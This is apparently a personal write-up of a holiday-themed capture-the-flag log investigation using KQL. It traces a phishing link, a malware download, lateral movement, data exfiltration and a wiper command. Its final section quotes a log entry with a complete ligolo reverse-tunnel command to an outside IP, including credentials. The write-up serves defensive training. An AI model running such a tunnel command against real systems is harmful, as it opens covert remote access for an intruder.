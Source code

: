# KQL Kraken Hunt

### Tools/Skills 

KQL, Incident Investigation, Log Analysis, Decoding Base64-Encoded Powershell Commands

---

## SYNOPSIS

An alert is generated that a malicious link was clicked on by an employee.

I found the email with the malicious link & documented the sender and receiver of the email. I then identitified the victim's role, hostname and ip address. From there, I was able to find the log showing the victim had clicked on the link, when he clicked on it, and then found a file that was subsequently downloaded on his computer. From there, I found that the attacker had created a remote tunnel, then performed a search on network shares. The attacker later exploited a network share to perform lateral movement within the system. After the lateral movement, the attacker performed 3 base64-encoded powershell commands. I decoded these commands and found that the attacker transfered a file out of the system and then deleted the file from the current system.

While this challenge did not go into escalation of events, at this point, if not before, I would be escalating the alert according to a company's playbook.

## SOLUTION & PROCESS

### ONBOARDING

1.  How many Craftperson Elf's are working from laptops?

    **QUERIES:**

    <img src="https://lh7-us.googleusercontent.com/MvbJxM40woFA4Se7p9tWOQm2HNwGU0VDQgfe9utIKP6vvsa2OT6JWrKqioJ1WYPsKbX-Kxi_1b5EWLB025D5RpRtfHJ53VGOeU51G-qtcqW5Ki4NSh1GU9ieXOZO4duxXdgoBWErkX3D-8miDltErz4" alt="" data-size="original">

    **ANSWER:**&#x20;

    <mark style="background-color:green;">25</mark>

### CASE 1

Track down who sent and who received the malicious link, as well as the subject link of the email with the malicious link: '[http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx](http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx)'

#### QUERIES

<figure><img src="https://lh7-us.googleusercontent.com/a5N2k43-CJEp9TZhSDyg4Nx4P4ZqA2Bli0qw_e5X1ca-9gGXB_fnM3zBxDpKOpOEDap0BgaEHeXFVR5oOaCYFaoZ_0LYuk93scdGDoXYI-wUTXEdW77rhHnlMTS-j6yoZ8DQcDVOwerJD3vxgOk_gIM" alt=""><figcaption></figcaption></figure>

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/TEWx2TyqxROsCjFM5rLVDceggA-v58xdnk75d9f88OAKCiBLYEhlxGcil-AUbJcfJZyyzZitePm2umcJCDeZje69-uqWagS4uheLhfWUTILchGTo_0y2D7CxT1hSk_EuFKCZOz0WUmWilR8QeuL1rFA" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">SENT:</mark> cwombley@gmail.com

<mark style="background-color:green;">RECEIVED:</mark> alabaster\_snowball@santaworkshopgeeseislands.org

<mark style="background-color:green;">SUBJECT LINE:</mark> “\[EXTERNAL] Invoice foir reindeer food past due”

### CASE 2

Find the role, hostname and ip address of the victim.

#### QUERIES:

<figure><img src="https://lh7-us.googleusercontent.com/RYidirBYNrKLo6o40HKkaufZiA4n2ji3zKezkTp7u8M1HVyEtoBI-4BvjDScxEph46J1iNnGrzoj4iAnE3qPH14tttsqmn0cnkqwwUWxZLUCoRt8B6z3NmU1U1lAgEn3Hm77d1We8J25955fe0XUcYc" alt=""><figcaption></figcaption></figure>

#### RESULT:

<figure><img src="https://lh7-us.googleusercontent.com/3Y4irJPGmPvzKY2PccMde4Nyh3TGslugW77Y1DDS_fOj2-nqsyvutvZpaFSOq0Gl42M8OZ-Nlg71Roz1T5Iy7f7ycN2aF6jrzpwxNY_T_FY5kMFdseMNf8ScTMNhPSi4NxXbu2az-hiZAefocI_j8W4" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">IP ADDRESS:</mark> 10.10.0.4

<mark style="background-color:green;">ROLE:</mark> Head Elf

<mark style="background-color:green;">HOSTNAME:</mark> Y1US-DESKTOP

### CASE 3

What time did the victim click on the link? Were any files downloaded after he clicked on it?

#### **QUERY 1 (time):**

<figure><img src="https://lh7-us.googleusercontent.com/vjQBuf1AzOctN15_B3oylkiBAH3_onFBlmdKTyKgffISnb3xBUuCo7b97LdE84Exj91KpBBGEgeMtZ2_5bD6u8myMsLlnft-kupBNJAIdTHrdUL4vAgGRT7V-0-mzJRZ6CXWHo78G4PR4pwz6vwYetc" alt=""><figcaption></figcaption></figure>

#### RESULT 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/PuHI9oixhptbV5-p8QJddSSYdnlMxvt1vo02Z3a06cHAk7ZTRddCIgLyT6L2_FNdaO_pmfGZto-EfOmfVF8_bGb1FsXFaz8Irkr-ZGcRkEYWTf5aKVCVagIeIFwMIJkUCfNnkeJWBJS_K5b-ZD2S2cw" alt=""><figcaption></figcaption></figure>

#### QUERY 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/lRyC6YQ28kU\_pR5nCbn92Fqkuf8GWlyEG5s6imvz\_UOfPsm1xdLBTDzl7Xu0tuykkynOun1tLwwC3oukJcIEqyCJi6EMKUDDL4h3TYRKsXEd8D9KOtO3XCgalEEa1ZS\_VtcVI4il4cozLrD0ZD4Ajyc)

#### RESULT 2 (downloaded file):

<figure><img src="https://lh7-us.googleusercontent.com/i2eMprbbxh1QBb2an7Ne2UfpfVZkAcUYnZUN7Zw4sbRrhOyxnn0ZvrqQIvESit-hKqayao60YeqK9MwELjJJPUjJLFzSiPMna_CIYrguPIHA8O3OGzXOumOeEYTFes2wz3DRyx-lHzmT-tBhO0nRb-0" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">TIME (OF CLICK):</mark> 2023-12-02 10:12:42.0000

<mark style="background-color:green;">DOWNLOADED FILE NAME:</mark> giftwrap.exe

### CASE 4

Where did the attacker create a remote tunnel to? When did the attacker enumerate network shares? What hostname did the attack perform lateral movement to get to?

#### Endpoint IP Address from a created Remote Tunnel

#### QUERY

![](https://lh7-us.googleusercontent.com/XVTPmDsMIZEp--ItJ67Fq8\_lDYxkm1jJFZFDYSEfPKS4VH9sEG0vP4kJMd4Qn1eEjM0D9y20XW9igJOstKdr56IzBMQy54zAxKxyHauurHnQYLvV7UgxQ8oQm7DjfcgT5EvUy8hANf4AF1PUw5mXeYs)

#### RESULT:

<figure><img src="https://lh7-us.googleusercontent.com/13na8qbqYkdYLu8903nbmkt5NsLFbw1u5T4GeWbV0T7JWvmpFUVWyW39yFKuoHTGh22vtBCWtBhp9uuFBie4Qp2ncvzQc8BY2Hcu6jfKweDo76UDjX80Nmfb3kHuDsl_XklbYyU6F542kfH1l6iRl_k" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">REMOTE TUNNEL IP ADDRESS:</mark> 113.37.9.17

### Time & Hostname

#### QUERY:

![](https://lh7-us.googleusercontent.com/79ZbEpZXt87wTw0uRpiB1OL\_phy2GliL5CgLDTtpqiKxMfFDhn2qazIUfvDU-t0PBbKf2uEl9ngDCn9A6T8natskto503FD1geuQh4YsaKyv0KZwIYZxwDnyilKpAE\_wcPw8vNS-f-F1rP9\_qLfM0NM)

#### RESULT 1 (TIME when attacker enumerated network shares):

<figure><img src="https://lh7-us.googleusercontent.com/utX1fUCATCO1biW6B0EuUWje_NzTER932a0u41DC_I8gR3D-OdP7__DZk1Z9PYGlBkI2BIT7yEbwO_fq7bM4rqilI82rjiEIQDc0BG09ryaHF1DV6qsq2tKmdnTD87_gNppuY-tQBO-2R1kSnt-jSzw" alt=""><figcaption></figcaption></figure>

#### RESULT 2 (Hostname of lateral movement)

<figure><img src="https://lh7-us.googleusercontent.com/uLdRc2VE2m4hC8LNxvb4xW_IfL_GPmfwb36Xn6reOhujuxcmN-1koCRn3DSn2sXZD-oRcCJuzrfpb-f-EroyYY7usaC77uAWSDyDkLDj2a7E48PjywxaekzbluIFVTJoNo7ij25o1ATEbBxJCh3q6HM" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">TIME (OF ENUMERATED NETWORK SHARES):</mark> 2023-12-02T16:51:44Z

<mark style="background-color:green;">HOSTNAME (OF LATERAL MOVEMENT):</mark> NorthPolefileshare\


### CASE 5

Find base64 encoded powershell commands and find the name of the file that was transferred and to where.

#### QUERY

<div align="left">

<figure><img src="https://lh7-us.googleusercontent.com/vLnmuC-nBhxoltH41WizoiRsYpbt2IpUgNIzEkO34KEuGHs6XZQUS6DlLpYLLKv84uMe8snT_QziHpl8wmeSAFjNWPNBe1uVsFuoTy10nV6QVQwFkMyupxSh5lvpk15HmyoQXnAtrDNb8XeSqzkH67o" alt=""><figcaption></figcaption></figure>

</div>

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/Qh-bkx5hVYtRvROknWUM_UB4SBXF1omukoWjbaWl3Kz-mZ6ul9bOlgs-cC5iKrLte55RmaMy3oR5w-0vuyLBtzHHZGztGneovIuwE-KVO3s-4J2-MyxUDLE-4n_bn2jfwniIv7qqf901B32rj77xC9w" alt=""><figcaption></figcaption></figure>

#### FURTHER STEPS&#x20;

1. I decoded the four, actually 3, base64 encoded texts in Powershell.&#x20;

<figure><img src="https://lh7-us.googleusercontent.com/q1g_wAseK58O47_l_IVAy0iyyezy4DmKcvEP88tYjVhKdwWehMEpxlQgxm8zeZ4mx7rRTIeemWqGXRvFfIVzOxRdFAXyzN0-7PV1-hF6RgA1bLOAVzjC3GQRBVzmSldFnszPWlSuzLvETroDH5QZKDM" alt=""><figcaption></figcaption></figure>

2. One of the decoded messages was written in reverse, so I wrote it backwards, with some help from AI, discovering the file name.&#x20;
3. A 2nd “decoded” message was almost all numbers, which I thought was strange, so I sent it to chatgpt. ChatGPT found how it was encoded and decoded it, showing me the domain the file was sent to.

<mark style="background-color:green;">TIME (OF FIRST ATTACK):</mark> 2023-12-24T16:07:47Z&#x20;

\*NOTE:there was an encoded powershell command before this one, but it was a basic update, not indicative of an attack)

<mark style="background-color:green;">FILE TRANSFERRED:</mark> NaughtyNiceList.txt

<mark style="background-color:green;">DOMAIN (WHERE FILE WAS SENT):</mark> giftbox.com

### CASE 6

Determine executable and command flag

#### QUERY

\*I used the previous query.

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/JdZkygDuCblavsOhMKjahEV4S40jsp7rmSXSpIJ3xOmAgKysEiMABSzIq0wDWbHx9mbYsfTpi-U_RzQsAsut7PEtchqVtfD3vpBzx36TKayZe2oa9ZHmBfOTGsP0hz_4yuNFbG3eQjjjbhD_snlPlqw" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">EXECUTABLE:</mark> downwithsanta.exe

<mark style="background-color:green;">COMMAND FLAG</mark>: --wipeall



***

## [ChatGPT Prompts/Answers](https://chat.openai.com/share/94431fef-ea99-4e63-a282-69e523da68f7)

#### Example Prompts:

* What signs would there be that a reverse tunnel connection with a compromised machine is made? Where would I find the IP the connection forwarded to? (Using KQL)
* What is the timestamp when the attackers enumerated network shares on the machine?
* What process names would be indicative of this?
*   Is this a reverse tunnel connection?

    "timestamp": 2023-12-02T11:11:29Z,

    "parent\_process\_name": cmd.exe,

    "parent\_process\_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,

    "process\_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,

    "process\_name": ligolo,

    "process\_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,

    "hostname": Y1US-DESKTOP,

    "username": alsnowball
